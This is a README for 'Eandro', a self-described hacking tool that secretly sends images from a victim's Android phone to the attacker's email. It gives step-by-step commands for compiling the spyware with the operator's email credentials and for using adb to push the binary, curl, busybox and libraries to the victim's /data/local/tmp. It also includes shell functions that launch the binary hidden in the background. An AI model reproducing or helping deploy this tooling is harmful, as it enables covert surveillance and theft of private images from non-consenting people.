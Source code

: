 # Eandro

Eandro is a Hacking Project to Automatical send Image of victim to Your Mail ID

Things You Need Above files
Copy Everything to your sdcard OR to your computer .

Make Sure adb Works either in Computer or Mobile Phone

1 . Install adb in Android or Computer

2 . Download Files that i Provided

3 . Download Eandro.c code to your Mobile or computer

4 . And here tough part comes install clang in Android or computer 

5 . To install clang in android install Termux in Android and type "apt install clang" without quotes.

6 . After install the c Compiler compile the code that i gave change the email and password and also from and to mail addresses

7 . To compile c code in android copy the /data/data/com.termux/files/home/ i.e Home Directory and type "gcc eandro.c -o eandro" [ Without Quotes ]

8 . Next you need to push all files and compiled binaryfile to /data/local/tmp/ of the Victims Mobile

To Push the Files you need to follow the steps

In Android : Below Command are steps to push the files to Victims Mobile if adb supports to your mobile i included adb binary file here download it

I suggest to download Termux and install certain packages 

apt install git 

apt install clang

after successfully installtion of these two proceed following steps

> cd /data/data/com.termux/files/home/

> git clone git@github.com:maddalakum/Eandro.git

> cd /data/data/com.termux/files/home/Eandro/lib64/ ; 

> adb shell "if [ ! -d /data/local/tmp/lib64 ] ; then mkdir /data/local/tmp/lib64 ; chmod 777 /data/local/tmp/lib64;fi " ; 

> for i in `ls`; do  adb push $i /data/local/tmp/lib64/ ; done ; 

> adb push ../curl /data/local/tmp/ ; 

> adb push ../busybox /data/local/tmp/

function push { cd /storage/emulated/0/Lab/Randro/lib64/ ; adb shell "if [ ! -d /data/local/tmp/lib64 ] ; then mkdir /data/local/tmp/lib64 ; chmod 777 /data/local/tmp/lib64;fi " ; for i in `ls`; do  adb push $i /data/local/tmp/lib64/ ; done ; adb push ../curl /data/local/tmp/ ; adb push ../busybox /data/local/tmp/ ; }

function run { cd /data/data/com.termux/files/home ; adb push eandro /data/local/tmp/ ;  adb shell "nohup /data/local/tmp/eandro 2>/dev/null 1>/dev/null  &" ; echo -e "${BGreen}${bold}" ; adb shell "ps |grep shell | grep eandro";echo -e "${none}" ; }

In Computer download the Zip file place the file in desktop and unzip and push the files normall as i said to android

Watch My Video to how to do it 

https://www.youtube.com/channel/UCYgXhhbtAuFHOKsNDujcxzQ
